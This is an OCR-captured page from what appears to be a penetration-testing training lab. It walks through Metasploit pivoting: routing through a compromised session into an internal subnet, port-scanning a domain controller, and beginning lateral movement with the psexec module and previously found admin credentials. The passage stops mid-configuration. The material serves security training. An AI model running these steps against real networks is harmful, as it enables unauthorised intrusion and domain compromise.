Ethernet adapter Ethernet1:
 Connection-specific DNS Suffix . :
 Link-local IPv6 Address . . . . . : fe80::49e9:5c50:265f:6600%4
 IPv4 Address. . . . . . . . . . . : 192.168.1.111
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 192.168.1.1
Ethernet adapter Ethernet0:
 Connection-specific DNS Suffix . :
 IPv4 Address. . . . . . . . . . . : 10.11.0.22
 Subnet Mask . . . . . . . . . . . : 255.255.255.0
 Default Gateway . . . . . . . . . : 10.11.0.2
 
C:\Users\offsec.corp>


 We will use route and add to create a path to the alternate internal network subnet we discovered.
 
 We will also specify the session ID that this route will apply to:

msf5 > route add 192.168.1.0/24 11
[*] Route added

msf5 > route print
IPv4 Active Routing Table
=========================
 Subnet Netmask Gateway
 ------ ------- -------
 192.168.1.0 255.255.255.0 Session 11


 With a path created to the internal network, we can now enumerate this subnet.
 
 Since we already know the IP address of the domain controller, we will perform a limited port scan of it using the portscan/tcp module.

msf5 > use auxiliary/scanner/portscan/tcp
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 192.168.1.110
RHOSTS => 192.168.1.110
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389
msf5 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.1.110: - 192.168.1.110:3389 - TCP 
OPEN[+] 192.168.1.110: - 192.168.1.110:445 - TCP 
OPEN[*] 192.168.1.110: - Scanned 1 of 1 hosts (100% complete)[*]
Auxiliary module execution completed

msf5 auxiliary(scanner/portscan/tcp) >

 Since we previously discovered valid administrative credentials for the domain controller, we may now attempt a pivot to a domain controller through the use of the smb/psexec module. 
 
 We need to specify credentials by specifying values for SMBDomain, SMBUser, and SMBPass as shown below.

msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec_psh) > set SMBDomain corp
SMBDomain => corp
